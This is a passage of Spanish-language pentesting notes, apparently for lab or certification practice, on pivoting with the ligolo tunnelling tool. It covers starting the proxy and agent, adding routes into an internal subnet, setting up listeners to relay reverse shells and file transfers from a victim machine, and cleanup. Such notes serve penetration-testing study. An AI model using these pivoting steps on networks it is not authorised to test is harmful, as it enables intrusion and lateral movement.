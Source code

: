 	ligolo_up
	```
- Ejecución de proxy (pwnbox)
	```bash
	sudo ligolo-proxy -selfcert
	```
- Conexión desde la máquina cliente
	```bash
	.\ligolo_agent.exe -connect 192.168.45.214:11601 -ignore-cert
	```
- Crear nueva ruta
	```bash
	sudo ip route add 172.16.5.0/24 dev ligolo
	# Creada función zsh
	ligolo_r 172.16.5.0/24
	```
- Iniciar el túnel (aplicación en pwnbox)
	```bash
	# Seleccionamos sesión
	session
	# Iniciamos túnel
	start
	```
#### Para revshells y file transfers
Lo documentado arriba solo sirve para dirigir el tráfico saliente en nuestra máquina, pero si necesitamos revshells o transferir archivos, debemos crear listeners
- Redirección de puertos
```bash
# Ejemplo para revshell (nuestra pwnbox recibe en 4444)
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
# Ejemplo para file transfer
listener_add --addr 0.0.0.0:8000 --to 0.0.0.0:8000
# Ejemplo para mysql
listener_add --addr 0.0.0.0:33306 --to 127.0.0.1:3306
```
- No me ha funcionado, pero sí 
	```powershell
	listener_add --addr 0.0.0.0:4444 --to $vpnip:4444
	listener_add --addr 0.0.0.0:8000 --to $vpnip:8000
	```
- Seguido de comando que apunte a $agent:1234 en la máquina víctima
#### Eliminar rutas e interfaz

- Eliminar una ruta creada 
	```
	sudo ip route del 172.16.5.0/24 dev ligolo
	```
- Eliminar la interfaz ligolo
	```
	sudo ip tuntap del mode tun dev ligolo
	```

---